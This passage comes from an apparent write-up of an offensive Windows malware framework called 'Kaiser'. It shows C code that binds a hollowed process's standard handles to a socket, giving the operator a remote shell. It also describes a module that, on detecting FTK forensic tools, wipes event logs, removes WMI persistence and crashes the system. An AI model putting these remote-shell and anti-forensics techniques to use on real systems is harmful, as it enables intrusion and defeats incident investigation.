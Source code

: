 ## 3.2 Process-hollowed and Networked Interactive Sessions

Interactive sessions over the network back to the operator are only available with console applications such as Mimikatz or _cmd.exe_ because they utilise the standard input and output handles. The creation of a process with _process hollowing_ using `CreateProcess` allows the standard handles to be set to a socket (initialised using `WSASocket`) via the `STATUPINFO`<sup>[29] (https://docs.microsoft.com/en-us/windows/desktop/api/processthreadsapi/ns-processthreadsapi-_startupinfoa)</sup>structure:

```c
typedef struct _STARTUPINFOA {
  DWORD  cb;
  LPSTR  lpReserved;
  LPSTR  lpDesktop;
  LPSTR  lpTitle;
  DWORD  dwX;
  DWORD  dwY;
  DWORD  dwXSize;
  DWORD  dwYSize;
  DWORD  dwXCountChars;
  DWORD  dwYCountChars;
  DWORD  dwFillAttribute;
  DWORD  dwFlags;
  WORD   wShowWindow;
  WORD   cbReserved2;
  LPBYTE lpReserved2;
  HANDLE hStdInput;
  HANDLE hStdOutput;
  HANDLE hStdError;
} STARTUPINFOA, *LPSTARTUPINFOA;
```

To use the standard handles, the `dwFlags` member must have the `STARTF_USESTDHANDLES` value. To direct them over the network, simply set the handles to the value of the socket like so:

```c
// Initialise the socket using WSASocket.
SOCKET socket = CreateSocket(...);
// Initialise STARTUPINFO structure.
STARTUPINFO si;

// Use the std handles and set it to the socket.
si.dwFlags |= STARTF_USESTDHANDLES;
si.hStdInput = si.hStdOutput = si.hStdError = (HANDLE)socket;

// Start process hollowing.
CreateProcess(..., &si, ...);
```

## 3.3 Active Forensic Analysis Prevention

The `purge` module offers a process-monitoring functionality designed to target any analysis tools that may be used against Kaiser. The current example implementation actively searches for new processes that contain the case-insensitive string "ftk" in its process name to prevent the FTK memory acquisition tools. If the condition is satisfied, it will immediately clear some pre-defined event logs, uninstall the persistence in the WMI and then crash the system with a BSOD in an attempt to protect Kaiser from any form of analysis and prevent any further possible forensic investigation. 
